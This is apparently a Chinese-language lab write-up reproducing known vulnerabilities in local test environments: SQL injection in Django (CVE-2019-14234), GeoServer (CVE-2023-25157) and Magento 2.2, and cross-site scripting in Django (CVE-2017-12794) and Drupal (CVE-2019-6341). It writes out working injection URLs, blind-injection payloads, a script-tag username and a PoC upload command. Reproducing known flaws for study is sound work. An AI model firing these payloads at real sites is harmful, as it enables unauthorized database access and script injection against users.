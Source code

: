 ### django  CVE-2019-14234漏洞 SQL注入复现

Django是一个高级的Python Web框架，支持快速开发和简洁实用的设计。

​	通过离线传输镜像搭建靶场环境

<img src="pictures\25-04-03\屏幕截图 2025-04-03 130016.png" alt="image-20250403130020796" style="zoom:50%;" />

首先使用以下凭据登录Django管理界面：`http://192.168.117.131:8000/admin/`

- 用户名：admin
- 密码：a123123123

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403130545198.png" alt="image-20250403130545198" style="zoom: 80%;" />

导航到Collection模型的列表视图:`http://192.168.117.131:8000/admin/vuln/collection/`

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403130747629.png" alt="image-20250403130747629" style="zoom: 67%;" />

要利用SQL注入漏洞，在GET参数中添加`detail__a'b=123`，其中`detail`是JSONField字段：

`http://192.168.117.131:8000/admin/vuln/collection/?detail__a%27b=123`

可见，单引号已注入成功，SQL语句报错：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403131213269.png" alt="image-20250403131213269" style="zoom:50%;" />





### GeoServer （CVE-2023-25157）SQL 注入漏洞复现

​	GeoServer是OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作，通过 GeoServer 可以比较容易的在用户之间迅速共享空间地理信息。

**搭建靶场：**

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403132634772.png" alt="image-20250403132634772" style="zoom:50%;" />

在进行注入之前，首先要获取地理图层列表信息，这是sql注入payload中的一个必要参数，

访问以下url获取：`http://192.168.117.131:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities`

<u>**<Name>**</u>标签中的信息，就是地理图层列表。这里选择`vulhub:example`作为地理图层列表信息

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403133827658.png" alt="image-20250403133827658" style="zoom: 67%;" />

将上一步获取的typeName的name属性值拼接到url中，构成url如下:

`http://192.168.117.131:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&maxFeatures=1&outputFormat=json`

![image-20250403134009005](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403134009005.png)

**构造SQL 注入**

Feature type (table) name: vulhub:example

One of attribute from feature type: name

利用这些已知参数，拼接成payload:`http://192.168.117.131:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name,%27x%27%27)%20=%20true%20and%201=(SELECT%20CAST%20((SELECT%20version())%20AS%20integer))%20%E2%80%93%20%27)%20=%20true`

![image-20250403134441838](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403134441838.png)

成功获取到数据库版本号。







### magento 2.2-sqli漏洞复现

​	Magento是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

​	其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

环境启动后，访问`http://192.168.117.131:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403135403738.png" alt="image-20250403135403738" style="zoom:50%;" />

分别访问链接，再通过wireshark抓包，

- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-`
- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-`

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同，通过改变OR的条件，即可实现SQL BOOL型盲注。









### Django调试页面跨站脚本漏洞（CVE-2017-12794）

Django 1.11.5和1.10.8版本之前的调试错误页面中存在跨站脚本（XSS）漏洞。当启用DEBUG模式时，错误页面可能会通过未经转义的HTML错误消息暴露敏感信息。

该漏洞在数据库错误发生并且其详细信息显示在调试页面时触发。数据库的错误消息在模板渲染之前没有被正确转义。



靶场搭建完成后通过`http://192.168.117.131:8080`访问是一个不可访问界面，

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142337062.png" alt="image-20250403142337062" style="zoom:50%;" />

创建一个用户，访问以下URL创建一个包含JavaScript代码的恶意用户名：`http://192.168.117.131:8000/create_user/?username=<script>alert(1)</script>`

第一次请求将成功创建用户，

![image-20250403142656764](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142656764.png)

然后，再次访问相同的URL以触发数据库唯一约束错误。错误页面将在错误消息中包含未经转义的用户名：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142746766.png" alt="image-20250403142746766" style="zoom: 67%;" />

用户名中的JavaScript代码将在浏览器中执行，证实了XSS漏洞的存在。攻击者可以利用此漏洞在调试页面的上下文中执行任意JavaScript代码，可能导致会话劫持或其他客户端攻击。







### Drupal文件上传导致跨站脚本执行（CVE-2019-6341）

​	Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

​	在Drupal 7.x < 7.65, Drupal 8.x < 8.5.14 和 8.6.x < 8.6.13 中，由于文件模块或子系统中对文件上传处理不当，导致攻击者可以上传一个没有扩展名的文件，该文件表面上是一个图片，但实际包含了嵌入JavaScript的HTML代码。当其他用户访问该文件的链接时，XSS代码将被执行。

靶场搭建完成后，访问`http://192.168.117.131:8080/`将会看到Drupal的安装页面。按照默认配置完成安装步骤。由于环境中没有MySQL，可以选择SQLite作为数据库。

网站初始界面：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403143808828.png" alt="image-20250403143808828" style="zoom: 50%;" />

​	该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件上传，文件的内容表面上是图片实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

​	上传文件操作：`php blog-poc.php 192.168.117.131:8080`

![image-20250403144442571](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403144442571.png)

待上传成功后，访问图片位置即可触发XSS漏洞：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403145032092.png" alt="image-20250403145032092" style="zoom: 80%;" />

攻击未成功，因为火狐浏览器自带部分过滤 XSS 功能，
